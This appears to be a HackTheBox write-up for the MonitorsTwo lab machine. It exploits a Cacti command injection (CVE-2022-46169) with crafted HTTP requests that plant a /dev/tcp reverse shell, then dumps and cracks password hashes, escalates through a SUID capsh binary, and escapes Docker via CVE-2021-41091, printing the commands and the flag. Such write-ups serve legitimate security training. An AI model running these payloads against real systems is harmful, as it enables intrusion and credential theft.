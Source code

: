 # [MonitorsTwo](https://app.hackthebox.com/machines/MonitorsTwo) - 05/05/2023 - HackTheBox write-up

## User flag

### Discovery

First, we a `nmap` we can only find an HTTP and a SSH server, nothing really interesting. On the webpage we can find it's a `Cacti` instance in version 1.2.22.

### Searching for vulnerability

Current version of `Cacti` is 1.2.24, and we can see in the GitHub releases that they patch a critical CVE (CVE-2022-46169) in the version 1.2.23.

So it's more than probable that we have to exploit this CVE. So we can search on the net for a `CVE-2022-46169 poc exploit`. We can find the following PoC easily : [https://github.com/sAsPeCt488/CVE-2022-46169](https://github.com/sAsPeCt488/CVE-2022-46169).

### Exploitation

After reading the code and try to understand the vulnerability, I try to run the script, and it works. The server is vulnerable to this CVE, and with the script we can found the correct parameters to submit to obtain code execution. With some `sleep` tests, we can confirm that the RCE works, so we will do the reverse shell :
```bash
# Command injection goes in poller_id parameter
GET /remote_agent.php?action=polldata&host_id=1&poller_id=;echo "bash -i >& /dev/tcp/10.10.14.65/56384 0>&1" > revshell.sh&local_data_ids[]=0&[...] HTTP/1.1
Host: 10.10.11.211
X-Forwarded-For: 127.0.0.1      # bypass IP restriction with this parameter
Connection: close
```

Start a `netcat` and then :
```bash
GET /remote_agent.php?action=polldata&host_id=1&poller_id=;bash revshell.sh &&local_data_ids[]=0&[...] HTTP/1.1
Host: 10.10.11.211
X-Forwarded-For: 127.0.0.1
Connection: close
```

We have a reverse shell on the server.

But we are user `www-data` and we are in a docker container so we have two problems : became `root` user and then escape from the container.

### Escape from container

I try many things to became root because I didn't find the right way first, and also I was thinking that it may be helpful to connect as an admin to the `Cacti` application. By looking at the file `entrypoint.sh` in the root of the file system we can find the database credentials and the command to connect to it. With this we can inspect the database, especially users passwords :
```bash
bash-5.1$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms
1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompson	admin@monitorstwo.htb		on	on	on	on	on	2	1	1	1	1	on	-1	-1	-1		0	0	663348655
3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1		0	0	0
4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	1	1	1	on	-1	-1	on	0	0	2135691668
```

This two hashes are `bcrypt` hashes so it will takes time to crack them, but we can have a try.

Quickly, with `john` and `rockyou` we can crack the hash from user `marcus` and get the password `funkymonkey`. The other one didn't get cracked within a few minutes, so we can suppose that it can't be cracked with `rockyou`.

With this credentials we can connect to the `Cacti` website but this user doesn't have any rights on the instance so it will not help. Also, we have total control of the database since we can connect to it as `root` so we can just change the `admin` password hash directly in the database :
```bash
mysql --host=db --user=root --password=root cacti -e "update user_auth set password = <hash> where username = 'admin'"
```

It works, and now we have an admin access to the web app. Unfortunately, it doesn't give us anything else, there is nothing interesting in the app.

So, next option we can try with `linpeas` and enumerate any possible way to gain privileges. After some researches and failures, I find that the binary `capsh` have the SUID bit. With a quick research we can find that we can use it to obtain a root shell. Just run the following command :
```bash
capsh --uid=0 --gid=0 --
```

And now we are `root`.

With `root` rights I came back to container escaping and retry some exploits and scripts to escape from it. But, after a lot of failures I've started to losing hope about escaping the container, and also I've read on the forum that such kernel exploits and docker escaping are not for easy machines, so I start to find something else.

If we came back to the basics, I remember the password that I've cracked before (`funkymonkey` for username `marcus`) and I just didn't test it on the SSH server...

So, obviously, it was that... Get the user flag and go for the next step.

## Root flag

### Searching for elevating privileges

After a few researches about Docker and privileges escalation we can found the following vulnerability : `CVE-2021-41091`. It requires to be `root` on the docker to exploit it and run commands as `root` on the host. But we see previously that we could become `root` easily on the container with the `capsh` binary. We can found a POC here : [https://github.com/UncleJ4ck/CVE-2021-41091.git](https://github.com/UncleJ4ck/CVE-2021-41091.git).

### Exploitation

So, to exploit this CVE we need to connect again with the reverse shell on the container, and then change the permissions on `/bin/bash` :
```bash
# In the container
$ capsh --uid=0 --gid=0 --
# Root user
$ chmod u+s /bin/bash
```

Now we can run the POC on the host with the SSH access :
```bash
marcus@monitorstwo:~$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

And now we can obtain a root shell and get the flag:
```bash
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# cat /root/root.txt 
bb4f74efaff61432df0363b06d75c383
```
